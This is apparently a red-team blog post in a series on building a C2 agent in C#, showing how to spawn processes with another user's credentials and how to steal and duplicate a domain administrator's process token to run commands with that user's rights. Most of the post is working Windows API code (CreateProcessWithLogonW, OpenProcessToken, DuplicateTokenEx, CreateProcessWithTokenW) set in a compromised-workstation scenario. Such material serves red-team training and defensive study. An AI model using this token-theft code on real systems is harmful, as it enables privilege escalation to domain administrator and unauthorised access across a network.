 ```yaml
---
title: Fork and Run Implementation in C# - User impersonation & Token Manipulation
author: Fropops
date: 2023-06-13 08:10:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous article ([Process Creation](/posts/Fork-and-Run-CSharp-Process-Creation/)) of this [Fork And Run](/posts/Fork-and-Run-CSharp-Intro/) series, we saw how to create a new process using the Windows API and how to retrieve its output stream.

Before moving on to the injection part, let's stay a little longer in the realm of process creation for the duration of this article. Indeed, there is another widely used feature in C2: the ability to launch a process with the rights of another user.

In this article, we will explore the two main techniques used for this purpose:<br/>
The first option, if we have the credentials of another user, is to create the process in the context of that user.<br/>
The second option, if we have sufficient privileges on the target computer, allows us to duplicate the rights of another process.<br/>


# User Impersonation

We can use the Windows API to create a process by using the login and password of a user. To do this, we simply need to use the function CreateProcessWithLogonW instead of CreateProcessW. This function is available in the advanced functions DLL (advapi32.dll).

We need to add its definition to our project in order to invoke it:
```c#
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithLogonW(
	string lpUsername,
	string lpDomain,
	string lpPassword,
	uint dwLogonFlags,
	string lpApplicationName,
	string lpCommandLine,
	uint dwCreationFlags,
	IntPtr lpEnvironment,
	string lpCurrentDirectory,
	[In] ref STARTUPINFOEX lpStartupInfo,
	out PROCESS_INFORMATION lpProcessInformation);
```

We also need to add the associated flag:
```c#
[Flags]
public enum LOGON_FLAGS : uint
{
	LogonWithProfile = 0x00000001,
	LogonNetCredentialsOnly = 0x00000002,
}
```

In order to make it worl, we also need to remove the following line : 
```c#
creationFlags |= PROCESS_CREATION_FLAGS.EXTENDED_STARTUPINFO_PRESENT;
```

We can then call it with the appropriate parameters:

```c#
if (!CreateProcessWithLogonW(userName, domain, password, LOGON_FLAGS.LogonWithProfile, null, cmd, creationFlags, IntPtr.Zero, null, ref startupInfoEx, out pInfo))
    throw new InvalidOperationException($"Error in CreateProcessWithLogonW : {Marshal.GetLastWin32Error()}");
```

Here we go !

![Process Creation Impersonated Execution](/assets/img/posts/ForkAndRun/exec-creation-impersonated.png)

# Token manipulation

In Windows processes, a token refers to an object that represents the security context of a user or a system. It contains information about the user's identity, privileges, and group memberships, which are used to determine the access rights and permissions for the process.

When a user logs in to a Windows system, a token is created that contains their security credentials. This token is then associated with every process that the user starts or runs. The token carries information such as the user's security identifier (SID), user privileges, group SIDs, authentication information, and other relevant security data.

If we have sufficient privileges on a system, we have access to all user processes and their tokens! 

Let's imagine the following scenario: we have compromised a workstation and gained system access. By studying the current processes, we notice that the domain administrator is logged into this machine:

![Process List on workstation](/assets/img/posts/ForkAndRun/steal-token-processlist.png)

If we manage to steal the token from one of the Administrator's processes and inject it into a process that we create, we should obtain the access rights of the domain administrator! Once again, the Windows API provides us with everything we need for this manipulation.

There are 2 functions in the API that allow us to steal a token from an existing process and duplicate it:

 ```c#
[DllImport("advapi32.dll")]
public static extern bool OpenProcessToken(
	IntPtr ProcessHandle,
	DesiredAccess DesiredAccess,
	out IntPtr TokenHandle);

[DllImport("advapi32.dll")]
public extern static bool DuplicateTokenEx(
	IntPtr hExistingToken,
	TokenAccess dwDesiredAccess,
	ref SECURITY_ATTRIBUTES lpTokenAttributes,
	SecurityImpersonationLevel ImpersonationLevel,
	TokenType TokenType,
	out IntPtr phNewToken);
```

We need to declare associated structures:

```c#
public enum DesiredAccess : uint
{
	STANDARD_RIGHTS_REQUIRED = 0x000F0000,
	STANDARD_RIGHTS_READ = 0x00020000,
	TOKEN_ASSIGN_PRIMARY = 0x0001,
	TOKEN_DUPLICATE = 0x0002,
	TOKEN_IMPERSONATE = 0x0004,
	TOKEN_QUERY = 0x0008,
	TOKEN_QUERY_SOURCE = 0x0010,
	TOKEN_ADJUST_PRIVILEGES = 0x0020,
	TOKEN_ADJUST_GROUPS = 0x0040,
	TOKEN_ADJUST_DEFAULT = 0x0080,
	TOKEN_ADJUST_SESSIONID = 0x0100,
	TOKEN_READ = (STANDARD_RIGHTS_READ | TOKEN_QUERY),

	TOKEN_ALL_ACCESS = (STANDARD_RIGHTS_REQUIRED | TOKEN_ASSIGN_PRIMARY |
	TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY | TOKEN_QUERY_SOURCE |
	TOKEN_ADJUST_PRIVILEGES | TOKEN_ADJUST_GROUPS | TOKEN_ADJUST_DEFAULT |
	TOKEN_ADJUST_SESSIONID)
}

public enum TokenAccess : uint
{
	TOKEN_ASSIGN_PRIMARY = 0x0001,
	TOKEN_DUPLICATE = 0x0002,
	TOKEN_IMPERSONATE = 0x0004,
	TOKEN_QUERY = 0x0008,
	TOKEN_QUERY_SOURCE = 0x0010,
	TOKEN_ADJUST_PRIVILEGES = 0x0020,
	TOKEN_ADJUST_GROUPS = 0x0040,
	TOKEN_ADJUST_DEFAULT = 0x0080,
	TOKEN_ADJUST_SESSIONID = 0x0100,
	TOKEN_ALL_ACCESS_P = 0x000F00FF,
	TOKEN_ALL_ACCESS = 0x000F01FF,
	TOKEN_READ = 0x00020008,
	TOKEN_WRITE = 0x000200E0,
	TOKEN_EXECUTE = 0x00020000
}

public enum TokenType
{
	TOKEN_PRIMARY = 1,
	TOKEN_IMPERSONATION
}

public enum SecurityImpersonationLevel
{
	SECURITY_ANONYMOUS,
	SECURITY_IDENTIFICATION,
	SECURITY_IMPERSONATION,
	SECURITY_DELEGATION
}
```

We can now retrieve the token using the process ID:

```c#
var processSrc = Process.GetProcessById(processId);

//open handle to token
if (!OpenProcessToken(processSrc.Handle, DesiredAccess.TOKEN_ALL_ACCESS, out hToken))
	throw new InvalidOperationException($"Failed to open process token");


//duplicate  token
var sa = new SECURITY_ATTRIBUTES();
if (!DuplicateTokenEx(hToken, TokenAccess.TOKEN_ALL_ACCESS, ref sa, SecurityImpersonationLevel.SECURITY_IMPERSONATION, TokenType.TOKEN_IMPERSONATION, out hTokenDup))
{
	CloseHandle(hToken);
	throw new InvalidOperationException($"Failed to duplicate token");
}
```

All that's left is to create a process by injecting the retrieved token. For this, we will use the CreateProcessWithTokenW function:

```c#
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(
   IntPtr hToken,
   uint dwLogonFlags,
   string lpApplicationName,
   string lpCommandLine,
   uint dwCreationFlags,
   IntPtr lpEnvironment,
   string lpCurrentDirectory,
   [In] ref STARTUPINFOEX lpStartupInfo,
   out PROCESS_INFORMATION lpProcessInformation);
```

We replace the call to the CreateProcessW function with:

```c#
if (!CreateProcessWithTokenW(hTokenDup, (uint)LOGON_FlAGS.LogonWithProfile, null, cmd, (uint)creationFlags, IntPtr.Zero, null, ref startupInfoEx, out pInfo))
	throw new InvalidOperationException($"Error in CreateProcessWithTokenW : {Marshal.GetLastWin32Error()}");
```

And here is the result:

![Simple Process Execution - Steal Token](/assets/img/posts/ForkAndRun/steal-token-exec.png)

# What does it look likes in our C2?

When integrated in the agent and running on the workstation as local Administrator, we try to enumerate the content of the C drive on the Domain Controller :

![Token STealing Execution in C2 - Standard user](/assets/img/posts/ForkAndRun/exec-steal-token-c2-before.png)

Let's find a process running as Domain Administrator :

![Token STealing Execution in C2 - Processes](/assets/img/posts/ForkAndRun/exec-steal-token-c2-ps.png)

Here we go !

![Token STealing Execution in C2 - Domain Admin](/assets/img/posts/ForkAndRun/exec-steal-token-c2-after.png)


# Final Thoughts

This article demonstrates how to create a new process in C# using the Windows API and impersonate or steal the rights of another user.

You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/StealToken.cs)